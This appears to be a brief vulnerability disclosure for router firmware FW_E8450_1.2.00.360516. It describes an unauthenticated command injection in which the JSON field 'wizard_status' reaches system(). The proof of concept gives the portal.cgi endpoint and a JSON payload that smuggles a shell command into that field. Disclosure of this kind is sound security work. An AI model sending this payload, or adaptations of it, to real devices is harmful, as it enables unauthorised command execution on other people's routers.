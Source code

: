 ## Firmware

Firmware version:FW_E8450_1.2.00.360516_prod_signed.img

## Analyze

Unauthenticated command injection

The vulnerability is located at address 0x429820  . The sub_422eb8 function is an json parsing function.The parsed fields(wizard_status) are used as arguments to the system function.

![](../imgs/18.png)

## Poc

Send the following data to this url to trigger the vulnerability:  http://target/cgi-bin/portal.cgi 

![](../imgs/19.png)

```json
{"action":"set_wizard_status","page":"wizard_status","wizard_status":"\";`id>/tmp/pwned`;# \""}
```

